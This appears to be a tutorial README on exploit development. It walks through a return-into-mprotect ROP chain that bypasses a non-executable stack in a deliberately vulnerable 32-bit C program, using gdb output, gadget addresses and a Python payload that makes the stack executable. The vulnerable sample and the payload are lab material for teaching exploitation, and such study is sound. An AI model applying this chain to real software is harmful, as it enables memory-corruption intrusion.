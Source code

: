 ## ROP : pointer leaking + return-into-mprotect()

- - -

#### We are in the era of high complexity to bypass mitigation against memory corruption.

**Ret2mprotect** is an elegant way to bypass mitigation like **NX/DEP** by using ```mprotect()``` to set memory protection.

I assume that you are confortable with x86 stack-based overflow, ASM and shellcode.

Let's take a vanilla sample :

```
#include<stdio.h>
#include<stdlib.h>

int main() {
    char name[512];
    fgets(name, 1024, stdin);
    printf("Hello %s", name);
    return 0;
}
```

Compile with explicit *noexecutable stack* flag.

```
$ gcc -m32 pwnme.c -o pwnme -znoexecstack

$ file pwnme exploitme: ELF 32-bit LSB executable, Intel 80386, version 1
(SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.26,
BuildID[sha1]=0x19883d935e336675dd19ceb894dc09fd15e5903c, not stripped
```

Basically, same methodology for any x86 stack-based overflow by creating a unique pattern (I use *metasploit*).

We will override ```EIP``` at ```offset 524```.

```
$ /usr/share/metasploit-framework/tools/pattern_create.rb 999 > /tmp/in

$ gdb ~/pwnme -q
gdb-peda$ r < /tmp/in
Stopped reason: SIGSEGV 0x35724134 in ?? ()

$ /usr/share/metasploit-framework/tools/pattern_offset.rb 0x35724134
[*] Exact match at offset 524
```

Our stack begin at ```0xfffdd000``` and have a size of ```0x21000```.

```
gdb-peda$ vmmap
Start      End        Perm  Name
0xfffdd000 0xffffe000 rw-p  [stack]
```

Assuming that **ASLR** is disabled.

The address of ```mprotect()``` : ```0xf7f2d2e0```

```
gdb-peda$ p mprotect $1 = {<text variable, no debug info>} 0xf7f2d2e0 <mprotect>
```

The manual of ```mprotect()``` give us the signature of the function.

```
$ man mprotect

NAME mprotect - set protection on a region of memory
SYNOPSIS #include <sys/mman.h> int mprotect(void *addr, size_t len, int prot);
```

Thus we know which argument to push.
It should look like this : ```mprotect(0xfffdd000, 0x21000, 0x7);```

```
gdb-peda$ searchmem CC 0xfffdd000 0xffffe000
Searching for 'cc' in range: 0xfffdd000 - 0xffffe000
0xffffd2c0 --> 0xcccccccc [stack] : 0xffffd2c1 --> 0xcccccccc [stack] :
0xffffd2c2 --> 0xcccccccc [stack] : 0xffffd2c3 --> 0xcccccccc [stack] :
0xffffd2c4 --> 0xcccccccc [stack] : 0xffffd2c5 --> 0xcccccccc [stack] :
0xffffd2c6 --> 0xcccccccc [stack] : 0xffffd2c7 --> 0xcccccccc [stack] :
```

Gogo Gadget. :o)

```
gdb-peda$ ropgadget
pop3ret = 0x8048882
```

Finally.

```
python -c "
    print'\xCC' * 524         # CC is the opcode for SIGTRAP
    +'\xe0\xd2\xf2\xf7'       # address of mprotect()
    +'\x82\x88\x04\x08'       # pop3ret cleaning the stack layout
    +'\x00\xd0\xfd\xff'       # address of the stack
    +'\x00\x10\x02\x00'       # size of the stack
    +'\x07\x00\x00\x00'"      # flag read/write/execute
    +'\xc0\xd2\xff\xff'       # payload on the stack ;)
```

After calling mprotect you can notice the execution flag on the stack.

```
gdb-peda$ vmmap
Start      End        Perm  Name
0xfffdd000 0xffffe000 rwxp	[stack]
```

@tfairane greetz @barrebas
